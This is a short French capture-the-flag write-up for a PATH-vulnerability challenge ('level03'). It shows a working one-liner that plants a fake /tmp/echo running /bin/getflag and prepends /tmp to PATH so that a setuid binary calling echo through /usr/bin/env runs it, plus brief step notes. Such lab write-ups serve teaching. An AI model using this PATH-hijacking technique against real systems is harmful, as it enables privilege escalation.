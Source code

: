 # Défi 3 Path Vulnerability

### Commandes réalisées
```bash
ls -la
ltrace ./level03
echo '/bin/getflag' > /tmp/echo; chmod +x /tmp/echo; export PATH=/tmp:$PATH; ./level03
```
* [[ltrace vs ptrace]]

### Utilisation d'echo via /usr/bin/env

**/usr/bin/env** -> signifie que echo est cherché dans **PATH**

### Méthods
#### 1. Create a /tmp/echo
#### 2. chmod +x /tmp/echo
#### 3. Add path to PATH variable